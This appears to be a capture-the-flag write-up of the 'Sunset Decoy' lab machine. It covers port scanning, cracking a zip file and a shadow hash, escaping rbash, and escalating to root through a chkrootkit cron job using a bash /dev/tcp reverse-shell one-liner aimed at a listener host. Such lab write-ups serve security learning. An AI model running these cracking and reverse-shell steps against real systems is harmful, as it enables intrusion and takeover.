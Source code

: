 ```yaml
---
title: Sunset Decoy
categories: [Proving Grounds Play, Sunset]
tags: [PrivEsc, fcrackzip, Password Cracking, Chkrootkit]
---
```


Lets check the IP address first —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```

Now let’s SSH into it ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Now lets enumerate freely —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```